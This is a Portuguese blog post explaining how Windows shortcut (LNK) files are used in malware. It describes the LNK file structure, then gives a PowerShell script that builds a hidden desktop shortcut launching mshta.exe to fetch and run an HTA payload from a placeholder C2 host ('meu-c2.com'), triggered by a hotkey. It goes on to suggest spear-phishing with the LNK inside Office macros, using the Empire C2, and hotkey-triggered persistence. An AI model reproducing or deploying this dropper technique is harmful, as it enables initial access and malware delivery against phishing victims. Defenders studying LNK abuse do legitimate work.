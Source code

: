 ```yaml
---
title: 'O uso de LNK em malwares'
layout: post
---
```


![image](https://hackmd.io/_uploads/H1hVX1MNyx.png)

O uso de Shortcuts em malwares
===

[toc]

# Introdução
Resolvi escrever este artigo pra abordar o uso de shortcuts do windows (LNK, URL, CDA, PIF, etc..) porque isso tá em alta ultimamente, o uso de shortcuts como dropper em phishings tem sido usado por diversos APTs (Vedalia, Fireant, APT37, APT-C-53, etc..) e é algo simples.

Você pode usar um shortcut pra persistência e acesso inicial, no caso vou abordar os 2.
## Shortcuts
Os Windows shortcuts files foram trazidos no win95, o windows utiliza `.lnk` como nome de extensão pra shortcuts de arquivos locais e `.url` para shortcuts de arquivos remotos (ex: paginas da web).

> Os icones dos shortcuts são assim:
> ![image](https://hackmd.io/_uploads/rk4f2kfN1l.png)
O icone é assim mas voce pode tirar essa setinha apagando a key `IsShortcut` no `HKEY_CLASSES_ROOT\lnkfile` no Registry do windows *(aviso: faça por sua conta em risco, pode ter a chance de dar um problema apos isso)*
## Estrutura do LNK
A estrutura do LNK é a seguinte:
1. `SHELL_LINK_HEADER` - Essa é uma estrutura obrigatória que contém informações e flags necessárias pro resto das estruturas do LNK.
2. `LINKTARGET_IDLIST` - Especifica o alvo do shortcut (o que vai ser linkado ao shortcut) passando na estrutura `ItemID`.
3. `LINKINFO` - Informações sobre a localização do alvo do shortcut.
4. `STRING_DATA` - Tem informações de paths do shortcut. As estruturas da `STRING_DATA` em sua maioria são opcionais, a maioria só vai ser definida se estiver no `LinkFlags` do `MS-SHLLINK`/`ShellLinkHeader`. (**Preste atenção nessas estruturas, elas podem revelar sua operação maliciosa**):
    - `RELATIVE_PATH`: arquivo embedaddo no LNK.
    - `WORKING_DIR`: diretorio onde o arquivo embedaddo no LNK se encontra.
    - `COMMAND_LINE_ARGUMENTS`: argumentos passados pra executar o binario.
5. `EXTRA_DATA` - Informações extras pro LNK.
# Dropper
Um dropper é um snippet pra carregar um malware (na maioria das vezes packed), por exemplo pra mitigar detecção por XDR/EPP. O dropper é utilizado mais por questão de OPSEC mesmo.
## Usando LNK como dropper
Você pode simplesmente embeddar um LOLBIN (sla, invoca o `mshta` pra executar teu payload ou o `regsrv32`, seja criativo) ao teu LNK e (colocando o path no `Target` nas Propriedades do shortcut) e se tu quiser (opcional) setupar uma tecla pra triggar esse LNK e executar teu comando do LOLBIN.

Ou tu pode criar um COM pra criar um LNK pra você.
### Criando um LNK via COM com PS1
```powershell
$path                      = "$([Environment]::GetFolderPath('Desktop'))\DROPPER.lnk"       # path do lnk
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)
$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"   # ICONE
$shortcut.TargetPath       = "mshta.exe"
$shortcut.Arguments        = "http://meu-c2.com/foda.hta"   # mshta.exe http://meu-c2.com/foda.hta
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+Z" # TECLA PRA ATIVAR O LNK, OPCIONAL
$shortcut.Description      = "shortcut" # OPCIONAL DESCRICAO DO SHORTCUT
$shortcut.WindowStyle      = 7
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden'
```
Pronto, agora você criou um LNK via COM com powershell scripting, mas poderia ter usado qualquer outra lang de scripting como C#, Python e VBScript, qualquer lang q consiga criar COM.
### Acesso inicial
Com esse LNK, voce pode sair fazendo spear-phishing embeddando ele a uma macro do Office. Um C2 que mexe muito bem com LNK é o [Empire](https://github.com/BC-SECURITY/Empire).
Essa técnica não é a melhor em questão de OPSEC (aliás, está bem longe kkkkkkkk) mas é bem interessante.
## Usando LNK como persistência
É o mesmo sentido, ou você roda um módulo qualquer do Empire ou você cria um LNK e seta uma tecla q vc ache q o alvo vai usar com frequencia ou não (ideias: F11, Shift, etc...)
